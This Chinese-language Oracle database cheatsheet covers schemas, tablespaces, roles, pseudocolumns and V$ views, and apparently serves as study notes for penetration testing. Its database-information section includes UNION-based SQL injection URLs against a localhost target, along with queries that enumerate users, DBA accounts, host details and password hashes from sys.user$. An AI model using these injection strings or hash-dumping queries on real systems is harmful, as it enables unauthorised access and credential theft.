



# oracle 知识 cheatsheet

## 基本概念
oracle数据库
把数据库(Database)可以看成是一个大仓库，然后仓库里面又很分了很多的库房(Schema)，一个Schema就是一个库房，那么库房里面自然就有很多货架(Table)，

那么货架上就可以放很多你想存储的东西，有行有列，所以货架(Table)就是数据存储的基本单位。每个库房(Schema)都会有一个管理人员(User),这个关系是对应的，每个User只管理自己相应Schema里面的数据，如果你想要其他Schema里面的数据，就看管理这个Schema的User给不给你权限了，或者说看上一级领导(DBA)有没有给你这个权限，可能有的User管理着好几个Schema。如果你是仓库的老板，那么仓库里面的所有东西都是你的，你想存储什么或丢掉什么都是老板话算，还可以给下层的人分配不同的权限，比如仓库的不同主管，有的主管可能只读，有的主管有读写权限，这个就要涉及到仓库不同的角色(Role)，角色是一个权限的集合，不同的角色有不同的权限去管理这个数据库。

一些基本概念
1)SID(Site ID)：一个由字母和数字组成的系统标识符用来做实例的唯一性的区别，包含了至少一个应用程序的实例和数据存储设备

2)实例(Instance):由一个实例数字(或是一个引导ID：SYS.V_$DATABASE.ACTIVATION#）表示，包含了一个操作系统程序的集合和与存储设备进行交谈的内部结构

ORACLE实例 = 进程 + 进程所使用的内存(SGA)

进程：负责接受和处理客户端传来的数据，如 Windows 下由 oracle.exe 进程负责分发和处理请求
SGA:全称为 System Global Area(系统全局区域)。实际上是内存中的一片共享区域，其中包含实例配置、数据缓存、操作日志、SQL命令、用户信息等信息，由后台进程进行共享
3)数据库：一般指物理存储的文件，Oracle 数据库除了基本的数据文件，还有控制文件和 Redo 日志(重做文件 + 控制文件 + 数据文件 + 临时文件)，这些文件一般存储在$ORACLE_HOME\oradata...路径下，后缀名后DBF

关于实例和数据库之间的关系

简而言之，实例是临时性的，数据库是永久性的，一个数据库可以对应多个实例，而一个实例只能对应一个数据库

Oracle数据结构
逻辑结构：表空间-->段-->区-->块


Oracle关系型数据库管理系统从逻辑上把数据保存在表空间内，在物理上以数据文件的形式存储。表空间可以包含多种类型的内存区块，例如数据区块（Data Segment）、索引区块（Index Segment）等等。区块相应的由一个或多个扩展（extent）组成

表空间(Tablespace)：数据文件就是由多个表空间组成的，这些数据文件和相关文件形成一个完整的数据库(以下的DBF后缀就是数据库默认创建的表空间)

SYSTEM表空间：包含了数据字典以及（默认的）索引和集群。数据字典包含了一个保存了所有数据库中用户对象的信息的表,用于存储系统表和管理配置等基本信息
SYSAUX表空间：是SYSTEM表的一个辅助表空间，主要存放一些系统附加信息，用来降低SYSTEM表空间的负载
TEMP表空间：是个临时表空间，主要用途是在数据库进行排序运算、管理索引、访问视图等操作时提供临时的运算空间，运算完后系统自动清理，可减少内存负担(temp表的大小也会一直增长)
UNDOTBS表空间：用于事务回退的表空间，存放撤销数据
USERS表空间：通常用于存放应用系统所使用的数据库对象，存储我们定义的表和数据
EXAMPLE表空间：存放各实例的相关数据
权限和用户
DBA: 拥有全部特权，是系统最高权限，只有DBA才可以创建数据库结构。
RESOURCE:拥有Resource权限的用户只可以创建实体，不可以创建数据库结构。
CONNECT:拥有Connect权限的用户只可以登录Oracle，不可以创建实体，不可以创建数据库结构
一般oracle数据库安装成功后会创建几个默认用户sys、system、public等

基本语法
这里使用了解一些基本语法的话，就了解一些跟mysql不一样的地方

Oracle 使用查询语句获取数据时需要跟上表名，没有表的情况下可以使用dual，dual是Oracle的虚拟表，用来构成select的语法规则，Oracle保证dual里面永远只有一条记录

都是遵守的SQL标准语法

select 必须要指明表名。也可以用 dual 作为表名来对非真实的表进行查询

Oracle 中空字符串''就是null（也就是说oracle只有null，没有空字符)

Oracle使用 || 拼接字符串，MySQL中为或运算

oracle的单引号与mysql一样的，只不过oracle的双引号是用来消除系统关键字的

Oracle中limit应该使用虚表中的rownum字段通过where条件判断

select * from pyy where rownum = 1;
Oracel的单行注释符是--，多行注释符是/**/

Oracle的系统表:

dba_tables : 系统里所有的表的信息，需要DBA权限才能查询
all_tables : 当前用户有权限的表的信息
user_tables: 当前用户名下的表的信息
DBA_ALL_TABLES：DBA 用户所拥有的或有访问权限的对象和表
ALL_ALL_TABLES：某一用户拥有的或有访问权限的对象和表
USER_ALL_TABLES：某一用户所拥有的对象和表
user_tables 的范围最小，all_tables 看到的东西稍多一些，而 dba_tables 的信息最全

DBA_TABLES >= ALL_TABLES >= USER_TABLES

数据库信息
获取数据库版本：

SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
SELECT version FROM v$instance;
具体注入的语句：
http://127.0.0.1/oracle?id=99' union select 1,'a',(SELECT banner FROM v$version WHERE banner LIKE 'Oracle%25') from dual -- +
获取操作系统版本：

SELECT banner FROM v$version where banner like 'TNS%';
http://127.0.0.1/oracle?id=99' union select 1,'a',(SELECT banner FROM v$version where banner like 'TNS%25') from dual -- +
获取当前用户权限的所有数据库：

SELECT DISTINCT owner, table_name FROM all_tables;
获取当前数据库：

SELECT global_name FROM global_name;
SELECT name FROM v$database;
SELECT instance_name FROM v$instance;
SELECT SYS.DATABASE_NAME FROM DUAL;
获取用户相关信息：

SELECT user FROM dual;获取当前数据库用户
SELECT username FROM all_users ORDER BY username;列出所有用户
SELECT name FROM sys.user$; — priv;列出所有用户

列出密码哈希:
SELECT name, password, astatus FROM sys.user$ — priv; <= 10g(astatus能够在acct被锁定的状态下给你反馈)
SELECT name,spare4 FROM sys.user$ — priv; 11g

获取数据库所有用户:
SELECT username FROM all_users ORDER BY username;
SELECT name FROM sys.user$; -- priv;

SELECT * FROM session_privs; 获取当前用户权限

SELECT * FROM dba_sys_privs -- priv;  获取所有用户权限

获取用户角色
SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;
SELECT DISTINCT grantee FROM dba_sys_privs;

获取所有数据库用户密码
SELECT name, password, astatus FROM sys.user$; -- priv, <= 10g;
SELECT name, spare4 FROM sys.user$; -- priv, >= 11g; 

列出DBA账户:
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’; — priv;

获取主机名和IP
SELECT UTL_INADDR.get_host_name FROM dual;
SELECT host_name FROM v$instance;
SELECT UTL_INADDR.get_host_address FROM dual;  查IP
SELECT UTL_INADDR.get_host_name(‘127.0.0.1’) FROM dual;  查主机名称

SELECT name FROM V$DATAFILE;  获取DB文件路径
获取字段名和表名

SELECT table_name FROM all_tables; 获取表名
SELECT column_name FROM all_tab_columns; 获取字段名
oracle基本函数
基本函数

## oracle persudocolumn

伪列是oracle 指定的一些字段值，用于再同一个上下文中作为oracle数据列，但不存于磁盘之上。SQL 和 PL/SQL可以识别下列SQL 伪列：
- SYSDATE
- SYSTIMESTAMP
- ROWID
- ROWNUM
- UID
- USER
- LEVEL
- CURRVAL
- NEXTVAL
- ORA_ROWSCN

例如：
```
SQL> SELECT sysdate, systimestamp FROM dual;
SYSDATE   SYSTIMESTAMP
--------- ----------------------------------------
13-DEC-07 13-DEC-07 10.02.31.956842 AM +02:00

SQL> SELECT uid, user FROM dual;
       UID USER
---------- ------------------------------
        50 MICHEL
```

## 动态性能(V$)视图（VIEWS）

ORACLE有大量的[动态视图](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/dynamic-performance-v-views-3.html#GUID-35400A54-B329-4C50-96AB-830152437737)可供使用，常用的如V$VERSION.

9.1 V$SCHEDULER_RUNNING_JOBS
9.2 V$SECUREFILE_TIMER
9.3 V$SEGMENT_STATISTICS
9.4 V$SEGSTAT
9.5 V$SEGSTAT_NAME
9.6 V$SERV_MOD_ACT_STATS
9.7 V$SERVICE_EVENT
9.8 V$SERVICE_REGION_METRIC
9.9 V$SERVICE_STATS
9.10 V$SERVICE_WAIT_CLASS
9.11 V$SERVICEMETRIC
9.12 V$SERVICEMETRIC_HISTORY
9.13 V$SERVICES
9.14 V$SES_OPTIMIZER_ENV
9.15 V$SESS_IO
9.16 V$SESS_TIME_MODEL
9.17 V$SESSION
9.18 V$SESSION_BLOCKERS
9.19 V$SESSION_CONNECT_INFO
9.20 V$SESSION_CURSOR_CACHE
9.21 V$SESSION_EVENT
9.22 V$SESSION_FIX_CONTROL
9.23 V$SESSION_LONGOPS
9.24 V$SESSION_OBJECT_CACHE
9.25 V$SESSION_WAIT
9.26 V$SESSION_WAIT_CLASS
9.27 V$SESSION_WAIT_HISTORY
9.28 V$SESSIONS_COUNT
9.29 V$SESSMETRIC
9.30 V$SESSTAT
9.31 V$SGA
9.32 V$SGA_CURRENT_RESIZE_OPS
9.33 V$SGA_DYNAMIC_COMPONENTS
9.34 V$SGA_DYNAMIC_FREE_MEMORY
9.35 V$SGA_RESIZE_OPS
9.36 V$SGA_TARGET_ADVICE
9.37 V$SGAINFO
9.38 V$SGASTAT
9.39 V$SHARED_POOL_ADVICE
9.40 V$SHARED_POOL_RESERVED
9.41 V$SHARED_SERVER
9.42 V$SHARED_SERVER_MONITOR
9.43 V$SHARED_SERVER_STAT
9.44 V$SORT_SEGMENT
9.45 V$SPPARAMETER
9.46 V$SQL
9.47 V$SQL_BIND_CAPTURE
9.48 V$SQL_BIND_DATA
9.49 V$SQL_BIND_METADATA
9.50 V$SQL_CS_HISTOGRAM
9.51 V$SQL_CS_SELECTIVITY
9.52 V$SQL_CS_STATISTICS
9.53 V$SQL_CURSOR
9.54 V$SQL_JOIN_FILTER
9.55 V$SQL_MONITOR
9.56 V$SQL_MONITOR_SESSTAT
9.57 V$SQL_MONITOR_STATNAME
9.58 V$SQL_OPTIMIZER_ENV
9.59 V$SQL_PLAN
9.60 V$SQL_PLAN_MONITOR
9.61 V$SQL_PLAN_STATISTICS
9.62 V$SQL_PLAN_STATISTICS_ALL
9.63 V$SQL_REDIRECTION
9.64 V$SQL_SHARD
9.65 V$SQL_SHARED_CURSOR
9.66 V$SQL_SHARED_MEMORY
9.67 V$SQL_TESTCASES
9.68 V$SQL_WORKAREA
9.69 V$SQL_WORKAREA_ACTIVE
9.70 V$SQL_WORKAREA_HISTOGRAM
9.71 V$SQLAREA
9.72 V$SQLAREA_PLAN_HASH
9.73 V$SQLCOMMAND
9.74 V$SQLFN_ARG_METADATA
9.75 V$SQLFN_METADATA
9.76 V$SQLSTATS
9.77 V$SQLSTATS_PLAN_HASH
9.78 V$SQLTEXT
9.79 V$SQLTEXT_WITH_NEWLINES
9.80 V$STANDBY_EVENT_HISTOGRAM
9.81 V$STANDBY_LOG
9.82 V$STATISTICS_LEVEL
9.83 V$STATNAME
9.84 V$STATS_ADVISOR_RULES
9.85 V$STREAMS_APPLY_COORDINATOR
9.86 V$STREAMS_APPLY_READER
9.87 V$STREAMS_APPLY_SERVER
9.88 V$STREAMS_POOL_ADVICE
9.89 V$STREAMS_POOL_STATISTICS
9.90 V$SUBCACHE
9.91 V$SUBSCR_REGISTRATION_STATS
9.92 V$SYS_OPTIMIZER_ENV
9.93 V$SYS_TIME_MODEL
9.94 V$SYSAUX_OCCUPANTS
9.95 V$SYSMETRIC
9.96 V$SYSMETRIC_HISTORY
9.97 V$SYSMETRIC_SUMMARY
9.98 V$SYSSTAT
9.99 V$SYSTEM_CURSOR_CACHE
9.100 V$SYSTEM_EVENT
9.101 V$SYSTEM_FIX_CONTROL
9.102 V$SYSTEM_PARAMETER
9.103 V$SYSTEM_PARAMETER2
9.104 V$SYSTEM_WAIT_CLASS
9.105 V$TABLESPACE
9.106 V$TEMP_CACHE_TRANSFER
9.107 V$TEMP_EXTENT_MAP
9.108 V$TEMP_EXTENT_POOL
9.109 V$TEMP_SPACE_HEADER
9.110 V$TEMPFILE
9.111 V$TEMPORARY_LOBS
9.112 V$TEMPSEG_USAGE
9.113 V$TEMPSTAT
9.114 V$TEMPUNDOSTAT
9.115 V$THREAD
9.116 V$THRESHOLD_TYPES
9.117 V$TIMER
9.118 V$TIMEZONE_FILE
9.119 V$TIMEZONE_NAMES
9.120 V$TOPLEVELCALL
9.121 V$TRANSACTION
9.122 V$TRANSACTION_ENQUEUE
9.123 V$TRANSPORTABLE_PLATFORM
9.124 V$TSDP_SUPPORTED_FEATURE
9.125 V$TYPE_SIZE
9.126 V$UNDOSTAT
9.127 V$UNUSABLE_BACKUPFILE_DETAILS
9.128 V$VERSION
9.129 V$VPD_POLICY
9.130 V$WAIT_CHAINS
9.131 V$WAITCLASSMETRIC
9.132 V$WAITCLASSMETRIC_HISTORY
9.133 V$WAITSTAT
9.134 V$WALLET
9.135 V$WORKLOAD_REPLAY_THREAD
9.136 V$XML_AUDIT_TRAIL
9.137 V$XSTREAM_APPLY_COORDINATOR
9.138 V$XSTREAM_APPLY_READER
9.139 V$XSTREAM_APPLY_RECEIVER
9.140 V$XSTREAM_APPLY_SERVER
9.141 V$XSTREAM_CAPTURE
9.142 V$XSTREAM_MESSAGE_TRACKING
9.143 V$XSTREAM_OUTBOUND_SERVER
9.144 V$XSTREAM_TABLE_STATS
9.145 V$XSTREAM_TRANSACTION
9.146 V$ZONEMAP_USAGE_STATS

## default user
oracle生成了很多[默认用户](http://www.orafaq.com/wiki/List_of_default_database_users)







## SYSAUX

SYSAUX 是 compulsory 表空间的名字，在oracle 10g中被引入，支持可选的数据库组件（称为 occupants），例如 AWR, Statspack，Oracle streams等等。

你可查询v$sysaux_occupants，获得SYSAUX occupants的列表。

```
SQL> SELECT occupant_name, schema_name, space_usage_kbytes FROM v$sysaux_occupants;

OCCUPANT_NAME             SCHEMA_NAME          SPACE_USAGE_KBYTES
------------------------- -------------------- ------------------
LOGMNR                    SYSTEM                             6080
LOGSTDBY                  SYSTEM                              896
STREAMS                   SYS                                 512
XDB                       XDB                               49728
AO                        SYS                               22400
XSOQHIST                  SYS                               22400
XSAMD                     OLAPSYS                           15936
SM/AWR                    SYS                               77888
SM/ADVISOR                SYS                               11008
SM/OPTSTAT                SYS                               62080
SM/OTHER                  SYS                                4864
STATSPACK                 PERFSTAT                              0
ODM                       DMSYS                               256
SDO                       MDSYS                             33216
WM                        WMSYS                              7040
ORDIM                     ORDSYS                              512
ORDIM/PLUGINS             ORDPLUGINS                            0
ORDIM/SQLMM               SI_INFORMTN_SCHEMA                    0
EM                        SYSMAN                            50560
TEXT                      CTXSYS                             4736
ULTRASEARCH               WKSYS                                 0
ULTRASEARCH_DEMO_USER     WK_TEST                               0
EXPRESSION_FILTER         EXFSYS                             3712
EM_MONITORING_USER        DBSNMP                             1600
TSM                       TSMSYS                              256
JOB_SCHEDULER             SYS                                 768

26 rows selected.
```